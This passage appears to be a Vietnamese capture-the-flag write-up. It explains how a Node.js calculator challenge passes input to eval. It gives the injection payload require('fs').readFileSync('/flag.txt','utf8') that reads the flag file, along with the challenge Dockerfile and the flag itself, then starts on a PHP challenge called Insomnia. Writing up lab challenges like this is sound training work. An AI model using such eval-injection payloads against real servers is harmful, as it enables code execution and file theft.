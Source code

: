 - Có thể thấy chính xác ở đây dùng eval để thực hiện phép tính -> lợi dụng để RCE.

- Flag nằm ở root cho nên ta cần phải RCE:

```
FROM node:alpine

# Install packages
RUN apk add --update --no-cache supervisor g++ make python3

# Setup app
RUN mkdir -p /app

# Add application
WORKDIR /app
COPY challenge .

# Add flag
COPY flag.txt /

# Install dependencies
RUN npm install

# Setup superivsord
COPY config/supervisord.conf /etc/supervisord.conf

# Expose the port node-js is reachable on
EXPOSE 1337

# Start the node-js application
CMD ["/usr/bin/supervisord", "-c", "/etc/supervisord.conf"]
```

- ở đây mình sẽ sử dụng fs để đọc:

`require('fs').readFileSync('/flag.txt', 'utf8')`

![image](https://hackmd.io/_uploads/HkJ237lUC.png)

![image](https://hackmd.io/_uploads/ByrahXgUR.png)

flag : `HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}`




## Insomnia

- Một chall sử dụng source php khá là phức tạp:

![image](https://hackmd.io/_uploads/BJ0mO4gLC.png)


- Chương trình có chức năng đăng kí đăng nhập sau đó được chuyển đến profile của người dùng.

```
<?php

namespace App\Controllers;

use App\Controllers\BaseController;
use CodeIgniter\HTTP\ResponseInterface;
use Config\Paths;
use Firebase\JWT\JWT;
use Firebase\JWT\Key;

class ProfileController extends BaseController
{
```